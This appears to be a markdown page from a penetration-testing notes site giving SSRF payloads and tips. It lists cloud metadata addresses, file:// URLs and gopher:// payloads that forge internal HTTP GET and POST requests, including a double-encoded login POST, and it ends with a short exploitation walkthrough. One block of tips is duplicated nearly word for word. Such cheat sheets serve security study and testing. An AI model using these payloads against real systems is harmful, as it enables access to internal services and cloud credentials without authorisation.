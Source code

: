 ```yaml
---
title: Useful Payloads
layout: default
parent: SSRF
has_children: false
nav_order: 1
---
```


<h3>Tips:</h3>
1. Remember to have Apache enabled first:\
`sudo systemctl restart apache2`

2. Check your logs for connections:\
`sudo tail /var/log/apache2/access.log`

3. Gopher related:
- Have a shelf-prepared payload that requires the least possible changes: Pick a username and password that you know the post data length will be static. Therefore, you won't need to change Content-Length each time.
- Important note: If you are sending your SSRF payload through the web application itself, you'll need to encode your payload once. If you are sending it through repeater, you'll need to encode it twice.
- Make sure the content-type field is correct.
- If you have a consistent payload, you only need to change the URI and HOST field.
- In post requests, there is 2 new lines between the HTTP header requests and post data (%0A%0A).
- Gopher runs on port 70. Make sure to specify the correct port number in your URL. (edited)

4. Just some general advice regarding SSRF: 
- Have a shelf-prepared payload that requires the least possible changes: Pick a username and password that you know the post data length will be static. Therefore, you won't need to change Content-Length each time. 
- Important note: If you are sending your SSRF payload through the web application itself, you'll need to encode your payload once. If you are sending it through repeater, you'll need to encode it twice. 
- Make sure the content-type field is correct. 
- If you have a consistent payload, you only need to change the URI and HOST field. 
- In post requests, there is 2 new lines between the HTTP header requests and post data (%0A%0A). 
- Gopher runs on port 70. Make sure to specify the correct port number in your URL.

5. Possible places: image that accepts URL, any search/add bar that accepts URL.

<h2>Internal Cloud Metadata:</h2>
AWS: `169.254.169.254`\
Google: `metadata.google.internal`

<h2>Different Protocols:</h2>
File (supported by curl but not Python):\
`file:///tmp/foo.txt`\
`file:/tmp/foo.txt`

<h2>Gopher:</h2>
This will create a gopher that uses GET HTTP request.\
The additional `_` added after port number is because Gopher automatically strips out the first character.\
If you do this from Burp or curl, need to URL encode all non alphanumeric character, and need to double encode non alphanumeric characters below (like %20 will need to be %2520):\
`gopher://127.0.0.1:9000/_GET%20/hello_gopher%20HTTP/1.1`

POST request:\
`gopher://127.0.0.1:80/_POST%20/status%20HTTP/1.1%0a`

A normal POST request sent to the /login page, with username and password information, content length and content type (not URL encoded):
`gopher://backend:80/_POST%20/login%20HTTP/1.1%0d%0aHost:%20backend%0d%0aContent-Type:%20application%2fx-www-form-urlencoded%0d%0aContent-Length:%2041%0d%0a%0d%0ausername%3dwhite.rabbit%26password%3ddontbelate%0d%0a`

The above when URL encoded twice:
`gopher%3A%2F%2Fbackend%3A80%2F_POST%2520%2Flogin%2520HTTP%2F1.1%250d%250aHost%3A%2520backend%250d%250aContent-Type%3A%2520application%252fx-www-form-urlencoded%250d%250aContent-Length%3A%252041%250d%250a%250d%250ausername%253dwhite.rabbit%2526password%253ddontbelate%250d%250a`


<h2>SSRF scenario example exploitation:</h2>
1. Find a place where the SSRF happens.
2. Attempt to access a file and see if it works.
3. If it doesnt, attempt to find a place if it will render other than the location in step 2.
4. If still doesnt find another SSRF vulnerability.
5. For example, if you find that image URL got SSRF, but it doesnt render and download properly in that same function, maybe go to some other places like contact info to see if can download and render.
